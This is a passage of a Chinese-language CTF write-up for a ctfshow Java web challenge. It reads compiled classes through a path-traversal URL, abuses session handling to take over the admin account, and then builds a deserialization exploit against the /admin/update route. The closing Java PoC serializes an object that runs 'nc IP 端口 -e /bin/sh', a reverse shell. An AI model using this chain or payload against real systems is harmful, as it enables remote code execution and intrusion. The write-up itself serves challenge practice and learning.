        UserEntity check = userModel.getUserByUsername(user.getUsername());
        if (user.equals(check)) {
            session.setAttribute("isLogin", true);
            session.setAttribute("user", user);
            String loginResult = "登录成功";
            if (check.getId() == 1) {
                String uuid = UUID.randomUUID().toString().replaceAll("-", "");
                loginResult = loginResult + " 请保存token:" + uuid;
                session.setAttribute("token", uuid);
                session.setAttribute("user", check);
            }
            model.addAttribute("message", loginResult);
            return "pageMessage";
        }
        model.addAttribute("loginResult", "登录失败，用户名/密码不正确。");
        return "loginResult";
    }

    @GetMapping({"/register"})
    public String register() {
        return "reg";
    }

    @PostMapping({"/register"})
    public String doRegister(UserEntity user, Model model) {
        UserModel userModel = new UserModel();
        if (user != null && !user.getUsername().equals("admin")) {
            userModel.createUser(user);
            model.addAttribute("loginResult", "注册成功。");
            model.addAttribute("retUrl", "/user/login");
            return "loginResult";
        }
        model.addAttribute("message", "注册信息有误，请检查。");
        return "pageMessage";
    }

    @GetMapping({"/logout"})
    public String doLoginOut(HttpSession session, Model model) {
        session.removeAttribute("isLogin");
        session.removeAttribute("user");
        return "redirect:/page/";
    }

    @PostMapping({"/changePassword"})
    @ResponseBody
    public ModelAndView changePassword(@RequestParam String newPassword, HttpSession session, Model model) {
        UserEntity userEntity = (UserEntity) session.getAttribute("user");
        if (null != newPassword) {
            userEntity.setPassword(newPassword);
            UserModel userModel = new UserModel();
            userModel.updateUser(userEntity);
            model.addAttribute("message", "修改成功");
        } else {
            model.addAttribute("message", "修改失败");
        }
        ModelAndView modelAndView = new ModelAndView("pageMessage", "pageMessage", model);
        return modelAndView;
    }
}
```

继续读取

```
/avatar/file/../classes/com/ctfshow/dao/UserEntity.class
```

```java
package com.ctfshow.dao;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.lang.reflect.InvocationTargetException;
import java.util.Objects;
import javax.persistence.Basic;
import javax.persistence.Column;
import javax.persistence.Entity;
import javax.persistence.Id;
import javax.persistence.Table;

@Table(name = "user", schema = "ctfshow", catalog = "")
@Entity
/* loaded from: UserEntity.class */
public class UserEntity implements Serializable {
    private static final long serialVersionUID = 1;
    private int id;
    private String username;
    private String password;
    private String email;
    private String address;

    @Id
    @Column(name = "Id")
    public int getId() {
        return this.id;
    }

    public void setId(int id) {
        this.id = id;
    }

    @Basic
    @Column(name = "username")
    public String getUsername() {
        return this.username;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    @Basic
    @Column(name = "password")
    public String getPassword() {
        return this.password;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public boolean equals(Object o) {
        if (this == o) {
            return true;
        }
        if (o == null || getClass() != o.getClass()) {
            return false;
        }
        UserEntity user = (UserEntity) o;
        return Objects.equals(this.username, user.username) && Objects.equals(this.password, user.password);
    }

    public int hashCode() {
        return Objects.hash(Integer.valueOf(this.id), this.username, this.password);
    }

    @Basic
    @Column(name = "email")
    public String getEmail() {
        return this.email;
    }

    @Basic
    @Column(name = "address")
    public String getAddress() {
        return this.address;
    }

    public void setEmail(String email) {
        this.email = email;
    }

    public void setAddress(String address) {
        this.address = address;
    }

    private void readObject(ObjectInputStream input) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        input.defaultReadObject();
        Class.forName(this.username).getMethod(this.email, String.class).invoke(Class.forName(this.username).getMethod(this.password, new Class[0]).invoke(Class.forName(this.username), new Object[0]), this.address);
    }
}
```

其中并没有对最重要的ID进行限制




而`login`路由可以看到，由于我们是注册了的，他还是直接比较的用户名和密码，如果有ID就直接覆盖，并且生成`token`了



而一看`/changePassword`他的用户是从`session`中获得的，而这用户是我们伪造的，我们可以利用这个直接去拿到正确的admin



而为啥这么说呢，我们可以读取`UserModel`得到答案

```
/avatar/file/../classes/com/ctfshow/model/UserModel.class
```

其中有一段重要代码



`saveOrUpdate`方法，如果ID存在，会直接更新。



然后我们去修改密码，参数是我们当前账号的密码



重新登录拿到token



这个token应该是配套权限的，我们继续读取

```
/avatar/file/../classes/com/ctfshow/controller/AdminController.class
```

```java
package com.ctfshow.controller;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.net.URL;
import javax.servlet.http.HttpSession;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;

@RequestMapping({"/admin"})
@Controller
/* loaded from: AdminController.class */
public class AdminController {
    @PostMapping({"/update"})
    public String adminConsole(@RequestParam String token, @RequestParam String url, HttpSession session, Model model) throws IOException, ClassNotFoundException {
        if (token != null && token.equals(session.getAttribute("token"))) {
            URL fileUrl = new URL(url);
            ObjectInputStream objectInputStream = new ObjectInputStream(fileUrl.openStream());
            objectInputStream.readObject();
            model.addAttribute("message", "更新成功");
            return "pageMessage";
        }
        model.addAttribute("message", "更新失败，token无效");
        return "pageMessage";
    }
}
```

得到了参数是`token`和`url`以及攻击路由`admin/update`，看到调用了`readObject`，找我们之前读取的文件里面`UserEntity`

```java
private void readObject(ObjectInputStream input) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        input.defaultReadObject();
        Class.forName(this.username).getMethod(this.email, String.class).invoke(Class.forName(this.username).getMethod(this.password, new Class[0]).invoke(Class.forName(this.username), new Object[0]), this.address);
    }
```

参数可控可以打反序列化

```java
package com.ctfshow;

import com.ctfshow.dao.UserEntity;
import org.hibernate.HibernateException;
import org.hibernate.Metamodel;
import org.hibernate.query.Query;
import org.hibernate.Session;
import org.hibernate.SessionFactory;
import org.hibernate.cfg.Configuration;

import javax.persistence.metamodel.EntityType;

import java.io.*;
import java.net.URL;
import java.util.Map;

public class Main {

    public static void main(final String[] args) throws Exception {
        UserEntity userEntity = new UserEntity();
        userEntity.setUsername("java.lang.Runtime");
        userEntity.setPassword("getRuntime");
        userEntity.setEmail("exec");
        userEntity.setAddress("nc IP 端口 -e /bin/sh");
        FileOutputStream fos = new FileOutputStream("exp");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(userEntity);
        os.close();

    }
}
```

## 0x03 小结

学了很多，同时发现是真坐牢啊，看来要好好学习一下java了，不然这个poc都不知道怎么`run`


